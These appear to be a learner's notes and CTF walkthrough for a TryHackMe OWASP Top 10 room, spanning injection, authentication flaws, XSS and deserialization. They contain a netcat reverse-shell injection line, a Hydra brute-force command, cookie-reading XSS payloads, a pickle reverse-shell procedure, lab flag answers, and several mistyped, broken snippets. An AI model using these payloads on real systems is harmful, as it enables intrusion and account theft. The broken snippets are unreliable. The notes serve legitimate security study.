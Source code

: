 OWASP_TOP_10
############
:Author: David Boyd
:Date: 2020-10-20
:PHP: https://www.php.net/
:Reverse Shells: https://cyberwarzone.com/reverse-shell-cheat-sheet/
:PHP passthru: https://www.php.net/manual/en/function.passthru.php

INJECTION
**********
:Day 1: Task 4

active command injection
	returns the response to the user  // can *see the response*
	(made visible through several HTML elements)
	#compare(blind command injection)

blind command injection
	occurs when a command injection (system command made to the server) does
	not return the response to the use in the HTML document. // *!=seeResponse*
	#compare(active command injection)

command injection
	input is passed to system commands

	[+] Access to users' systems

		- access to data
		- carry out more attacks against infrastructure linked to the server
		  on which the command is executed.

	[+] occurs when server-side code (like PHP) in a web application makes a
		system call on the hosting machine.

	- types(active, blind)

	[+] whoami -> ;nc -e /bin/bash (reverse shells)

PHP passthru
	executes what gets entered into the input
	then passing thr output back to the browser

PHP try-catch
	[+] PHP != output of stderr, but
	[+] PHP requires a 'catch' when using a 'try' statement


SQL Injection
	controlled input is passed to SQL queries
	[+] Access, Modify, and Delete information in a database


Prevention
==========

1.	Input validation
		a.	allow list
				- input is cmp to a list of safe input/chars
		b.	stripping input
				- rm dangerous chars (any input that can change how the
									  underlying data is processed).

		[+] There are libraries that perform these actions for you.

Injection Commands
==================

+-------------------+-------------+
| Linux             | Windows     |
+===================+=============+
| whoami            | whoami      |
+-------------------+-------------+
| id                | ver         |
+-------------------+-------------+
| ifconfig /ip addr | ipconfig    |
+-------------------+-------------+
| uname -a          | tasklist    |
+-------------------+-------------+
| ps -ef            | netstat -an |
+-------------------+-------------+
| cat cat/passwd    |             |
+-------------------+-------------+

id
	displays the current user's UID, GID, and Groups

Walkthrough
===========

#1.	What strange text file is in the website root directory?

	- Actions: 10.10.109.209/evilshell.php
	- Command: ls
	- ANSWER: drpepper.txt

#2.	How many non-root/non-service/non-daemon users are there?

	- ACTIONS: https://linuxize.com/post/how-to-list-users-in-linux/
	- COMMAND: grep -E '^UID_MIN|^UID_MAX' /etc/login.defs
	- COMMAND: getent passwd {1000..60000}
	- COMMAND: cat /etc/passwd
	- ANSWER: 0

#3. What user is this app running as?

	- COMMAND: whoami
	- ANSWER: www-data

#4. What is the user's shell set as?

	- INFO: User's shell is the last ':' parameter (NOTE:$USER has 2!)
	- COMMAND: cat /etc/passwd/ | grep www
	- ANSWER: /usr/sbin/nologin

#5. What version of Ubuntu is running?

	- INFO: LSB (Linux Standard Base) holds info about your *specific* distro
	- COMMAND: lsb_release - a
	- ANSWER: 18.04.4

#6. Print out the MOTD.  What favorite beverage is shown?

	- MOTD: The */etc/motd/* is a file that contains a "message of the day"
	- MOTD: Used to send a common message to all users efficiently > email
	- COMMAND: cat /etc/motd	**DOES NOT WORK!**
	- RESOLUTION: deduction of Q#1 && num of char placeholders in answer
	- ANSWER: Dr Pepper

Used with hint: 00-header

.. code-block:: Bash

	ls /etc/update-motd.d/
	# 00-header 10-help-text 50-landscape-sysinfo 50-motd-news 80-esm
	# 80-livepatch 90-updates-available 91-release-upgrade 92-unattended-upgrades
	# 95-hwe-eol 97-overlayroot 98-fsck-at-reboot 98-reboot-required
	cat /etc/updated-motd.d/00-header
	#ANSWER: " DR PEPPER MAKES THE WORLD TASTE BETTER! "

Broken Authentication
*********************
:Day 2: Task 7-8

Authentication and session management constitute core components of modern web
applications.  Authentication allows users to gain access to web applications
by veriftying their identities.  The most common form of authentication is
using a username and password mechanism.  A user would enter these credentials,
ther server would verify them.  If they are correct, the server would then
provide ther users' browser with a session cookie.  A session cookie is needed
because web servers use HTTP(S) to communicate which is stateless.  Attaching a
session cookies means that the server will know who is sending what data.  The
server can then keep track of user' actions.

If an attacker is able to find flaws in an authentication mechanism, they would
then succe4ssfully gain access to other users' accounts.  This would allow the
attacker to access sensitive data (depending on the purpose of the
application).  Some common flaws in authentication mechanisms include:

	- Brute force attacks: If a web application uses usernames and passwords,
	  an attacker is able to launch brute force attacks that allow them to
	  guess the username and passwords using multiple authentication attempts.
	- Use of weak credentials: web applications should set strong password
	  policies.  If applications allows users to uset passwords such as
	  'password1' or common passwords, then an attacker is able to easily guess
	  them and access user accounts.  They can do this without brute forcing
	  and without multple attempts.
	- Weak Session Cookies; Session cookies are how the server keeps track of
	  users.  If session cookies contain predictable values, an attacker can
	  set their own session cookies and access user' accounts.

There can be various mitigation for broken authentication mechanisms depending
on the exact flaw:

	- To avoid password guessing attacks, enusre the application enforces a
	  strong password policy.
	- To avoid brute force attacks, ensure that the application enforces an
	  automatic lockout after a certain number of attempts.  This would prevent
	  an attacker from launching more brute force attacks.
	- Implement Multi Factor Authentication - If a user has mutliple mehtods of
	  authentication and receiving a code on their mobile device, then it would
	  be difficult for an attacker to get access to both credentials to get
	  access to their account.

Broken Authentication Practical
===============================

For this example, we'll be looking at a **logic flaw** within the
authentication mechanism.

A lot of times what happens is that developers forget to sanitize the input
(username & password) given by the user in the code of their application, which
can make them vulnerable to attacks like SQLi.  However, we are going to focus
on a vulnerability that happens because of a developer's mistake but is very
easy to exploit.  I.e) Re-registration of an existing user.

Let's under this with the help of an example, say there is an existing user
with the name **admin** and now we want to get access to their account so what
we can do is try to re-register that username but with slight modification.  We
are going to enter " admin" (notice the space in the starting).  Now when you
enter that in the username field and enter other required information like
email id or password and submit that data.  It will actaully register a new
user but that user will have the same right as normal admin.  That new user
will also be able to see all the content presented under the user **admin**.

To see this in action go to http://$TM:8888 and try to register a username
**darren**, you'll see that user already exists, so then try to register a user
**" darren"** and you'll see that you are now logged in and will be able to see
the content present only in Darren's account which in our case is the flag that
you need to retrieve.

Walkthrough
===========
:Fun Notes: you can login as " admin" with re-registered password.

+---+---------------------------------+----------------------------------+
| # | Question                        | Answer                           |
+===+=================================+==================================+
| 1 | What is the flag that you found | fe86079416a21a3c99937fea8874b667 |
|   | in darren's account?            |                                  |
+---+---------------------------------+----------------------------------+
| 2 | Now try to do the same trick    | [Completed]                      |
|   | and see if you can login as     |                                  |
|   | **arthur**                      |                                  |
+---+---------------------------------+----------------------------------+
| 3 | What is the flag that you found | d9ac0f7db4fda460ac3edeb75d75e16e |
|   | in arthur's account?            |                                  |
+---+---------------------------------+----------------------------------+

[Day 3] Sensitive Data Exposure
*******************************

Introduction
============

sensitive data exposure
	when a webapp divulges sensitive data.
	[+] customer data

			- names
			- DOB
			- financial information
			- etc

	[+] technical data
			- usernames
			- passwords

Supporting Material 1
=====================
:Scope: flat-file DB
:Database engines: SQL, NoSQL (alternative format)
:DB Locations: dedicated servers (MySQL, MariaDB)
:Flat-file DB: sqlite (most common)

Database
	most common way to store a large amount of data in a format that is
	easily accessible from many locations at once.


flat-file database
	a database that is stored as a single file on the computer.
	[+] easier setup > full DB server ::> common in smaller webapps.


| if (DB is stored underneath the root dir of the website) {
| // one of the files that a user connecting to website can access
| db = download(flat-filedb);
| // query DB with full access to EVERYTHING in DB
| sde = query(db);	// sde = sensitive data exposure
| return sde;
| }

sqlite
	most common and simplest flat-file database.
	[+] can be interacted with most programming languages

sqlite3
	a dedicated client for querying sqlite on the command line.
	[+] CLI for SQLite3
	[+] installed by default on Kali
	[+] sqlite - CLI for SQLite 2

SQLite syntax
-------------

+-----------------------------+------------------------+
| SQLite Cmd                  | Description            |
+=============================+========================+
| sqlite3 <file>              | access the DB          |
+-----------------------------+------------------------+
| .tables                     | view the table names   |
+-----------------------------+------------------------+
| PRAGMA table_info(<file>)   | view column names      |
+-----------------------------+------------------------+
| SELECT * FROM <.tablesName> | dump table information |
+-----------------------------+------------------------+

.. code-block:: Bash

	# determine file type
	file <db-name>.db

	# access SQLite db
	sqlite3 <db-name>

	# see the .tables
	sqlite> .tables
	<tableName>

	# view table info (col names)
	sqlite> PRAGMA table_info(<tableName>);

	# example output
	0|custID|INT|1||1				// col 1
	1|custName|TEXT|1||0			// col 2
	2|creditCard|TEXT|0|0			// col 3
	3|password|TEXT|1|0				// col 4

	# dump information from the table
	sqlite> SELECT * FROM customers;

	# example output
	0|Joy Paulson | 4916 9012 2231 7905|5f4dcc3b5aa765d61d8327deb882cf99
	1|John Walters|5298 0704 2379 5940|f806fc5a2a0d5ba2471600758452799c
	...
	...


+---------------+------------------------------------+
| Column Name   | Information                        |
+===============+====================================+
| custID        | (0)                                |
+---------------+------------------------------------+
| custName      | (Joy Paulson)                      |
+---------------+------------------------------------+
| creditCard    | (4916 9012 2231 7905)              |
+---------------+------------------------------------+
| password hash | (5f4dcc3b5aa765d61d8327deb882cf99) |
+---------------+------------------------------------+

[Day 3] Sensitive Data Exposure Supporting Material 2
=====================================================
:About: Password Hashes
:URL: https://crackstation.net

Crack password hashes
---------------------

	- Kali comes pre-installed with a bunch of hash cracking tools
	- this scope will be using Crackstation's online tool

This scope uses weak MD5 hashes.

[Day 3] Sensitive Data Exposure (Challenge)
===========================================

[Day 6] Security Misconfiguration (Challenge)
=============================================

What you've learned:

	- **Python's Request Module**
	- Reading HTTP headers and JS
	- Burp Suite (reading headers and shit) (Hydra is faster!!!)
	- Locating and downloading wordlists
	- Hydra (online dictionary attack)
		- Find the HTTP Response for <Login-URL> either through:
			- Firefox > Network
			- Burp Suite

.. code-block:: bash

		hydra -L usernames.txt -P passwords.txt $TM http-post-form \
		"/api/user/login:username=^USER^&password=^PASS^:F=Incorrect" \
		-t 64 -I

[Day 7] Cross-site Scripting
============================

XSS Challenge
=============

The VM attached to this task showcases DOM-Based, Reflected and Stored XSS.
Deploy the machine and exploit each type!

#1 Deploy the VM
-----------------

[Completed]

#2 Go to http://$TM/reflected and craft a reflected XSS payload that will cause a popup saying "Hello".
-------------------------------------------------------------------------------------------------------

.. code-block:: JavaScript

	<script>alert("Hello")<script>

#3 On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.
--------------------------------------------------------------------------------------------------------------------

:Note: Your deployed machine's hostname will be its IP (Not your public IP)

.. code-block:: JavaScript

	<script>alert<window.location.hostname></script>

#4 Now navigate to http://$TM/stored and make an account.  Then add a comment and see if you can insert some of your own HTML.
------------------------------------------------------------------------------------------------------------------------------

Using document.write() after an HTML document is fully loaded, will
delete all existing HTML. (I had to restart the $TM!!!)  Reference:
https://www.w3schools.com/jsref/met_doc_write.asp

.. code-block:: HTML

	<h1><strong>OMFG!</br>ALL I HAD TO DO WAS USE F*ING <EM>TAGS</EM></h1>

#5 On the same page, create an alert popup box appear on the page with your document cookies.
---------------------------------------------------------------------------------------------
:URL: https://www.w3schools.com/jsref/prop_doc_cookie.asp

.. code-block:: JavaScript

	<script>alert(document.cookie)</script>

#6 Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.""""""
---------------------------------------------------------------------------------------------

documentquerySelector() method
	returns the first element that matches a specified *CSS selector(s)* in the
	document.
	TO return all matches, use document.querySelectorAll() method.

document.getElementById() method
	returns the element that has the ID attribute with the specified value.
	If >1 ID exists, getElementId() method returns the first element in the
	source code.

.. code-block:: JavaScript

	# THM's solution:
	<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>

	# My crafted solution from w3schools.com
	<Script>document.getElementById("thm-title").innerHTML = "I am a hacker"</script

[Severity 8] Insecure Deserialization
*************************************

Cookies Practical
=================

#1 1st flag (cookie value)
--------------------------

Inspecting Encoded Data
You will see here that there are cookies are both plaintext encoded and base64
encoded. The first flag will be found in one of these cookies.

.. code-block:: Bash

	# Copy and Paste Storage > Cookies > sessionId > Value
	# Decode with base64
	echo 'gAN9cQAoW...Lg==' | base64 --decode

#2 2nd flag (admin dashboard)
-----------------------------

Modifying Cookie Values
Notice here that you have a cookie named "userType". You are currently a user,
as confirmed by your information on the "myprofile" page.

This application determines what you can and cannot see by your userType. What
if you wanted to be come an admin?

	Double left-click the "Value" column of "userType" to modify the contents.
	Let's change our userType to "admin" and navigate to
	http://$TM/admin to answer the second flag.

Code Execution
==============
:Summary: Encodeing a reverse shell through Python's Flask web application
vulnerability of cookie setting in base64.

**IMPORTANT NOTES USING WSL**

	- In order to invoke a reverse shell of any kind, your VPN must be set through
WSL --otherwise Kali won't detect OpenVPN's adapter & IP address.

	- don't use netcat's '-p' flag when selecting a specific netw adapter.

1.	Get Python's pickle encoding code from

https://gist.github.com/CMNatic/af5c19a8d77b4f5d8171340b9c560fc3

2.	Input your OpenVPN's IP address; THEN run prgm.
3.	Copy output (cookie value)
4.	Setup netcat listening

.. code-block:: Bash

	nc -nvl OVPN.IP.ADDR 4444

5.	On TM

	- click 'Exchange your vim' to obtain the encoded cookie
	- change the encoded cookie's value to the copied rce.py's output
	- click 'Provide your feedback' to deserialize your RemoteShell's code

6.	On kali -l

	- patiently wait

.. code-block:: Bash

	find / -iname flag.txt 2>/dev/null


[Severity 9] Components With Known Vulnerabilities
**************************************************

How To Solve
============

1.	Deploy and browse to machine's website
2.	Copy 'Online CSE Bookstore' and google search "'<copy>' exploit"
3.	Download python file (note: bookstore == book store)
4.	python3 exploit.py http://$TM
5.	wc -c /etc/passwd

#1 How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)
-----------------------------------------------------------------------------------
:ANS: 1611

